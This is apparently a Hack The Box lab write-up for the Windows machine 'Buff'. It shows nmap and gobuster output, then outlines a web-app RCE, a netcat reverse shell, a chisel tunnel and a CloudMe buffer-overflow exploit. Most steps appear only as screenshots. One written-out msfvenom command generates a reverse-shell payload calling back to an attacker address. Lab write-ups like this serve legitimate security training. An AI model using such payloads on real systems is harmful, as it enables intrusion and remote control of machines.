 ```yaml
---
title: "[HTB] Machine: Buff"
description: "[HTB] Machine: Buff"
date: 2023-07-05
menu:
  sidebar:
    name: "[HTB] Machine: Buff"
    identifier: htb-machine-buff
    parent: htb-machines-windows
    weight: 10
hero: images/buff.png
tags: ["HTB", "chisel", "msfvenom", "webshell"]
---
```


# Buff
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.198
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 16:06 BST
Nmap scan report for 10.10.10.198 (10.10.10.198)
Host is up (0.11s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.73 seconds
```
```
└─$ gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.198:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/06 16:38:09 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/img/]
/index.php            (Status: 200) [Size: 4969]
/home.php             (Status: 200) [Size: 143]
/contact.php          (Status: 200) [Size: 4169]
/about.php            (Status: 200) [Size: 5337]
/profile              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/profile/]
/register.php         (Status: 200) [Size: 137]
/feedback.php         (Status: 200) [Size: 4252]
/Home.php             (Status: 200) [Size: 143]
/upload               (Status: 301) [Size: 344] [--> http://10.10.10.198:8080/upload/]
/upload.php           (Status: 200) [Size: 107]
/Contact.php          (Status: 200) [Size: 4169]
/About.php            (Status: 200) [Size: 5337]
/edit.php             (Status: 200) [Size: 4282]
/license              (Status: 200) [Size: 18025]
/Index.php            (Status: 200) [Size: 4969]
/up.php               (Status: 200) [Size: 209]
/packages.php         (Status: 200) [Size: 7791]
/examples             (Status: 503) [Size: 1058]
/include              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/include/]
/licenses             (Status: 403) [Size: 1203]
/facilities.php       (Status: 200) [Size: 5961]
/Register.php         (Status: 200) [Size: 137]
/Profile              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/Profile/]
/LICENSE              (Status: 200) [Size: 18025]
/Feedback.php         (Status: 200) [Size: 4252]
/att                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/att/]
/att.php              (Status: 200) [Size: 816]
/%20                  (Status: 403) [Size: 1044]
/IMG                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/IMG/]
/INDEX.php            (Status: 200) [Size: 4969]
/License              (Status: 200) [Size: 18025]
/ex                   (Status: 301) [Size: 340] [--> http://10.10.10.198:8080/ex/]
/*checkout*.php       (Status: 403) [Size: 1044]
/*checkout*           (Status: 403) [Size: 1044]
/*checkout*.txt       (Status: 403) [Size: 1044]
/Img                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/Img/]
/boot                 (Status: 301) [Size: 342] [--> http://10.10.10.198:8080/boot/]
/Upload               (Status: 301) [Size: 344] [--> http://10.10.10.198:8080/Upload/]
/Upload.php           (Status: 200) [Size: 107]
/phpmyadmin           (Status: 403) [Size: 1203]
/HOME.php             (Status: 200) [Size: 143]
```
- Web server

![](./images/1.png)

## Foothold
- While visiting pages found by `gobuster`, I found that `contact.php` reveals the framework and its version

![](./images/2.png)

- Checking `searchsploit` gives us `RCE`

![](./images/3.png)
![](./images/4.png)

- Let's run it

![](./images/5.png)
![](./images/6.png)


- But I wasn't able to change the directories, since it's a webshell and doesn't save states
  - So I wanted to upgrade the shell by uploading `nc` and geting reverse shell

![](./images/7.png)
![](./images/8.png)

## Root
- When I downloaded the `winpeas` for enumeration I noticed that in the `Downloads` directory there is a `CloudMe_1112.exe` file
  - So I googled about it and checked the ports along with the list of running processes
  - There is indeed `CloudMe` process running
  - It seemed like it was running periodically since the port `8888` was opening and closing every 1 minute.

![](./images/9.png)
![](./images/10.png)
![](./images/11.png)

- `Searchsploit` returns a list of vulnerabilities
  - And we have a match, since our `exe` file had a version `1.11.2`

![](./images/12.png)

- Let's build a tunnel to expose the port
  - We can use `chisel`

![](./images/13.png)
![](./images/14.png)

- Let's check the exploit

![](./images/15.png)

- Generate payload and modify the `PoC`
  - `msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.12 LPORT=7777 -b '\x00\x0A\x0D' -f python -v payload`

![](./images/16.png)

- Launch the listener and run the exploit

![](./images/17.png)
![](./images/18.png)
